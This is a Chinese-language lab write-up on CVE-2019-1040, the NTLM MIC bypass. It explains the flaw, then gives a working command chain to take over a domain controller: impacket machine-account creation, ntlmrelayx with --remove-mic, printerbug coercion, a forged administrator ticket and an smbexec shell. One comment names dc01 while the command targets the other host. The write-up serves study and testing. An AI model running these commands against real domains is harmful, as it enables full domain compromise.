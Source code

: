 # CVE-2019-1040：ntlm mic 签名绕过

- 攻击目标域控 ip：192.168.72.21，hostname：dc01
- 备用域控 ip：192.168.72.22，hostname：WIN-GI7DV30V4DO
- 攻击者 kali ip：192.168.72.162

### ntlm 认证

##### ntlm 身份认证阶段

- 客户端发送协商消息给服务端。
- 服务端返回协商消息和挑战值给客户端。
- 客户端发送验证消息给服务端。
- 服务端发送验证成功和建立会话的消息给客户端。

##### 会话阶段（smb、ldap、http等）

- 客户端使用（smb、ldap、http等第三方协议）访问服务。

### 漏洞原理

当客户端发送 NTLM 认证请求的数据包时，如果协商请求包的 **Negotiate version** 标志位被设置为 "未设置"（not set），那么后续的验证数据包就不需要携带 **MIC**（消息完整性码）。这意味着中间人可以篡改客户端发给服务端的认证数据包，因为这些数据包不受 **MIC** 完整性校验的保护。

### 漏洞利用

此漏洞需要攻击者作为中间人篡改客户端的数据包，因此可以配合 ntlm relay 进行使用，具体过程如下：

- 当使用 smb 协议中继到 ldap 协议时，由于 smb 的安全限制，ntlm 认证后会要求会话阶段携带签名导致攻击失败。

- 客户端发送 ntlm 协商请求给服务端，中间人截获后将 negotiate version 标志位设置为 not set 导致服务端不验证 mic，同时篡改下面的标志位使得身份验证后的会话阶段也不要求签名，这样会话从 smb 中继到 ldap 将不会触发 ldap 会话签名。
  - Negotiate Key Exchange
  - Negotiate Always Sign
  - Negotiate Sign
- 服务端发送挑战值，客户端运算出认证结果并发送，中间人截获运算结果向服务端发起验证。
- 服务端收到中间人的验证，并将其视为正常用户，同时验证成功，进入会话阶段（smb、ldap、http）。
- 由于中间人在 ntlm 认证时协商不进行会话签名，所以会话阶段（smb、ldap、http）没有签名的保护，中间人能够在会话阶段访问服务。

如果会话阶段要求签名，那么会话阶段将依赖计算新的 **session key** 并派生其他密钥，来确保会话数据包的完整性。

然而，这个 **session key** 是客户端和服务器端**各自独立计算**出一个相同的、对称的密钥，因此中间人无法伪造有效的签名，导致即使能通过 ntlm 认证，但会话阶段没有合法签名就无法和服务器通信，服务端会拒绝没有正确签名的数据包。然而，**CVE-2019-1040** 的漏洞使得攻击者可以禁用会话签名，从而绕过这个安全机制。

### 漏洞实验（攻击域控）（ntlm relay + CVE-2019-1040 + 基于资源约束性委派攻击）

注：因为微软的防止 ntlm relay 自身的补丁，所以不能用当前机器的身份 ntlm relay 攻击自身，需要一个域控作为被攻击的目标，另一个域控作为被引诱的客户。这里被攻击的域控是 dc01（ip：192.168.72.21），而发起 ntlm 认证的客户是 WIN-GI7DV30V4DO（ip：192.168.72.22）。

##### 第一步：攻击者事先开启监听

这里演示的攻击是给 deandean 用户创建的 comp-test$ 机器账户赋予了对域控的基于资源的约束性委派。

```
# 目标域不支持 ldaps 的话，可以使用如下命令，指定创建的机器账号 comp-test$

# powershell 脚本添加机器账号 comp-test$
Import-Module .\New-MachineAccount.ps1 New-MachineAccount -MachineAccount machine -Password root

# impacket 脚本添加机器账号 comp-test$
python addcomputer.py -computer-name comp-test$ -computer-pass p-0p-0p-0 -dc-ip 192.168.72.21 HACK.com/deandean:p-0p-0p-0

# 开启监听
python ntlmrelayx.py -t ldap://192.168.72.21 -smb2support --remove-mic --delegate-access --escalate-user comp-test$

# 目标域支持 ldaps 的话，可以使用如下命令，会自动创建机器账号。
python3 ntlmrelayx.py -t ldaps://192.168.72.163 -smb2support --remove-mic --delegate-access
```

##### 第二步：攻击者引诱用户访问自身

```
python3 printerbug.py HACK.com/deandean:p-0p-0p-0@192.168.72.22 192.168.72.162

# 让备用域控 WIN-GI7DV30V4DO 访问攻击者，攻击者利用备用域控的身份 ntlm relay 到主域控 dc01。攻击后 ntlmrelayx.py 脚本会回显域控 dc01 配置了 comp-test$ 的基于资源的约束性委派。 
```

![image-20250205151417810](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250205151417810.png)

##### 第三步：基于资源约束性委派攻击

```
# 使用 comp-test$ 机器账户以 administrator 的身份申请访问 dc01 机器的 cifs 服务票据
python getST.py -spn cifs/WIN-GI7DV30V4DO.HACK.com -impersonate administrator -dc-ip 192.168.72.22 HACK.com/comp-test$:p-0p-0p-0

export KRB5CCNAME=/tmp/administrator@cifs_WIN-GI7DV30V4DO.HACK.com@HACK.COM.ccache

python smbexec.py -no-pass -k WIN-GI7DV30V4DO.HACK.com -codec gbk
```

![image-20250205152456318](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E6%94%BB%E5%87%BB%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E/images/image-20250205152456318.png)

### 防御

打补丁